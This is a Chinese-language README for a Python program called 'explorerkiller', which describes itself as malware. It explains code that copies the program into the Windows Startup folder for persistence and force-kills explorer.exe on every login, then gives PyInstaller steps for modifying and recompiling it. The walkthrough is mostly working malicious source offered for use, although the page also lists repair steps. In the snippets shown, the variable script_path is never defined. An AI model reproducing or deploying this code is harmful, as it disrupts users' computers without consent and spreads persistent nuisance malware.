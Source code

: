 # 文件资源管理器杀手（explorerkiller）
## 简介
这是一个基于python制作并编译的恶意程序。
## 安全提醒
玩归玩，闹归闹，别拿设备开玩笑。假如你不小心（故意不小心）将此病毒运行，其造成的破坏是可以修复的，修复方法：  
1.打开任务管理器（Ctrl+Shift+Esc），运行“explorer.exe”  
2.调出运行菜单（Win+R），输入“shell:startup”并打开，找到本程序并删除文件
## 原理与代码详解
### 导入库
```
import os  
import shutil  
import sys  
import subprocess  
```
os，shutil和sys库：用于获取启动文件夹路径并复制  
subprocess:用于结束文件资源管理器进程  
### 复制到启动文件夹
```
startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
```
获取系统的启动文件夹路径  
```
script_name = os.path.basename(sys.argv[0])
```
获取程序名称  
```
def is_file_in_startup_folder(startup_folder, file_name):
    return file_name in os.listdir(startup_folder)
```
定义检查文件是否存在函数    
```
def copy_self_to_startup(startup_folder, script_path, script_name):
    destination_path = os.path.join(startup_folder, script_name)
    shutil.copyfile(script_path, destination_path)
    print(f"Copied {script_name} to {destination_path}")
```
定义复制文件函数  
```
if is_file_in_startup_folder(startup_folder, script_name):
    pass
else:
    copy_self_to_startup(startup_folder, script_path, script_name)
```
调用检查文件和复制文件函数，检查是否已有文件，假如没有，复制程序  
### 结束文件资源管理器
```
subprocess.run(['taskkill','/im','explorer.exe','/f'])
```
## 其他参数
运行系统：windows10（后续会支持更多版本）  
编译器：pyinstaller v6.10.0  
python:3.13.0  
## 如何自己修改本程序并编译
1.下载并安装python  
2.下载本程序源码  
3.进行修改  
4.在终端切到修改过后的程序源码所在路径，运行
```
pyinstaller -F 程序名称.py（请确认安装了pyinstaller）
```
